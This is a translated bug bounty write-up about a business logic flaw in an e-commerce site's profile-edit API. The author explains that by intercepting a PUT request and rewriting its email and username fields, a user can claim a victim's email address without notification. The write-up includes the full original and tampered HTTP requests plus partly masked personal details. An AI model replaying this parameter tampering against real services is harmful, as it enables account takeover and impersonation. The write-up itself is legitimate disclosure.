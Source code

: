 # 在 10 分钟内中断应用程序的用户注册过程

> 原文：<https://infosecwriteups.com/disrupting-an-applications-registration-process-in-10-mins-eab63cffd5eb?source=collection_archive---------0----------------------->

所以像往常一样，这篇文章将分为三个部分

1.  引言。
2.  漏洞描述。
3.  繁殖的步骤。

![](img/49e450dc5eeec7ea02c5cd8a4f54ff97.png)

# 介绍

> **什么是业务逻辑漏洞？**
> 
> 业务逻辑漏洞是应用程序设计和实现中的缺陷，它允许攻击者引发意外行为。这可能使攻击者能够操纵合法功能来实现恶意目标。这些缺陷通常是由于未能预见到可能出现的异常应用程序状态，因此未能安全地处理它们。

【https://portswigger.net/web-security/logic-flaws】点击 [*了解详情*](https://portswigger.net/web-security/logic-flaws)

那么就从我们的目标介绍开始吧。我寻找的目标是一个电子商务网站。它具有电子商务商店应该具有的所有基本功能。

**目标功能:2FA、登录和注册、个人资料编辑、购物车、结账等。**

在这篇文章中，我们将重点放在概要文件编辑功能上，因为我发现了这个特定功能中的业务逻辑缺陷。

> **我来问你，一个开发者在个人资料编辑页面上包含的基本功能有哪些？**
> 
> **答:**用户能够改变他的电子邮件地址，编辑他的名字和改变其他基本信息。

既然我们已经知道了基本的东西，并且有了要测试的功能范围，那么让我们从我们的攻击方法开始。

# 漏洞描述

![](img/e752af05657bc10dcf9a90b7e02a3765.png)

这个应用程序让我更改个人资料中的基本信息，但不知何故没有给我任何权限来更改我的电子邮件地址。我当时就觉得这有点。

所以我只是想看看当我想更新名字等基本信息时它发出的请求。(将在稍后的文章中详细解释)

我截取了那个特定的请求，我看到的有点令人惊讶。

尽管我只是想更改我的名字，但该请求发送了所有其他个人资料数据，包括我现在的电子邮件(在 emailAddress & username 参数中)。因此，由于我通常不允许更改我的电子邮件地址，我想为什么不通过更新电子邮件地址和用户名参数来更改这个特定请求中的电子邮件地址。

我用受害者的电子邮件地址更新了参数，令我惊讶的是，它成功了。记住我没有就此打住，呵呵。

**电子邮件地址更新成功。现在，我只需扩大这一漏洞的影响，我已经在重现步骤中展示了这一点。**

# 复制步骤:

1)在 [https://www。****.in/en/](https://www.glowandlovelycareers.in/en/) 并验证它。
2)访问 [https://www。****.在/en/](https://www.glowandlovelycareers.in/en/) 并且为了这次攻击在编辑个人资料页面上编辑任何东西。
3)现在点击 save changes 按钮，在 burp suite 中拦截该请求。

**拦截的请求看起来像这样:**

```
PUT /useraccounts/users/5f53963ea829f23e7dfa2fc3 HTTP/1.1
Host: dl****.execute-api.ap-south-1.amazonaws.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.*****.in/
Authorization: Bearer eyJhbG****dhMjEyNTM1M2QxIiwiY2xpZW50X2lkIjoidGVzdCJ9.2xHW9goHxG08dw28q-1xHyyXWvevelTJ6E-IU0_yh50
Content-Type: application/json
Content-Length: 939
Origin: https://www.****.in
Connection: close{"id":"5f53963ea829f23e7***","creationDate":***,"modifyDate":1599316219***,"firstName":"Karan","lastName":"Arora","mobileNo":"***943914",**"emailAddress":"adversaryc***@gmail.com”**,dateOfBirth":1016562600000,"gender":"male","shorterTestTaken":false,"longerTestTaken":false,"alternateEmailAddress":"","careerIntentId":"5ea9e91bdd50a63d28c5ca9b","lang":"en","userEnrollments":{"id":null,"userId":"5f53963ea829f23e7dfa2fc3","onlineTestEnrollments":{"categories":[],"tests":[]}},"appliedforWonk":false,"isDOBUpdated":true,**"username":"adversaryc***@gmail.com"**}
```

**现在更改高亮显示的参数，将电子邮件地址更改为受害者的电子邮件地址。**

> *受害者电子邮件地址:karn***@gmail.com*

**变更请求**

```
PUT /useraccounts/users/5f53963ea829f23e7dfa2fc3 HTTP/1.1
Host: dl****.execute-api.ap-south-1.amazonaws.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.*****.in/
Authorization: Bearer eyJhbG****dhMjEyNTM1M2QxIiwiY2xpZW50X2lkIjoidGVzdCJ9.2xHW9goHxG08dw28q-1xHyyXWvevelTJ6E-IU0_yh50
Content-Type: application/json
Content-Length: 939
Origin: https://www.****.in
Connection: close{"id":"5f53963ea829f23e7***","creationDate":***,"modifyDate":1599316219***,"firstName":"Karan","lastName":"Arora","mobileNo":"***943914",**"emailAddress":"**[**karn***@gmail.com**](mailto:karnxa007@gmail.com)**"**,dateOfBirth":1016562600000,"gender":"male","shorterTestTaken":false,"longerTestTaken":false,"alternateEmailAddress":"","careerIntentId":"5ea9e91bdd50a63d28c5ca9b","lang":"en","userEnrollments":{"id":null,"userId":"5f53963ea829f23e7dfa2fc3","onlineTestEnrollments":{"categories":[],"tests":[]}},"appliedforWonk":false,"isDOBUpdated":true,**"username":"**[**karn***@gmail.com**](mailto:karnxa007@gmail.com)**"**}
```

并转发此请求。现在帐户将被更新，您可以在个人资料页面上看到发生的变化。

> **请注意，不会有通知发送到受害者的电子邮件地址，这将成为攻击者的额外奖励，这帮助我增加了漏洞的影响。**

# **附加漏洞**

为了仔细检查是否发生了变化，我注销并尝试用攻击者的原始电子邮件 adver***@gmail.com(**这是后来添加到我的总体奖励中的另一个漏洞，因为攻击者能够用他的旧电子邮件地址登录，即使在用新地址更新后也是如此。**)

转到个人资料部分，你会看到受害者 karn***@gmail.com 的默认电子邮件地址，而不是攻击者的电子邮件，现在攻击者对该帐户进行的任何更改都将被记录为由 karn***@gmail.com 执行。

## 这就是我如何破坏他们的应用程序的整个帐户注册功能。

***推特⬇***

[https://twitter.com/Itskaranxa](https://twitter.com/Itskaranxa)

如果你觉得这值得你花时间，那么

![](img/61a36e9ca717a45f98e545e62ccb2e69.png)

**订阅更多。保持好奇！！**
